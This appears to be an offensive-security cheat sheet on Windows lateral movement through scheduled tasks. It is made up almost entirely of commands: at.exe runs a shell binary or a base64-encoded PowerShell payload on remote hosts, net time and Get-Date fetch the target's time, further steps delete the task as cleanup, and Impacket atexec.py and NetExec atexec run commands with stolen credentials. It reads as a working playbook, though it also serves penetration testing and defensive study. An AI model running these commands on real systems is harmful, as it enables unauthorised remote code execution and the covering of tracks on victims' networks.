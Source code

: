# At

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Living off the Land

### 1.1 - Syntax

```
C:\> at.exe <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

### 1.2 - Usage

Retrieve local time in order to create a schedule task.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command [-ComputerName <IP>] -ScriptBlock { Get-Date }
```

Create a schedule task.

```
C:\> at.exe [\\<IP>] <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at.exe [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

Cleanup the schedule by querying the current computer and then delete the identifier number.

```
C:\> at.exe [\\<IP>]

C:\> at.exe [\\<IP>] <id> /delete /yes
```

## 02 - Impacket

```
$ atexec.py <username>:<password>@<IP>
```

## 03 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --no-output --exec-method atexec -x "<command>"

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --no-output --exec-method atexec -X "<cmdlet>"
```

---
## References

### AbdulRhman Alfaifi

- [AbdulRhman Alfaifi: Impacket Remote Execution Tools - `atexec.py`](https://u0041.co/posts/articals/atexec-analysis/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)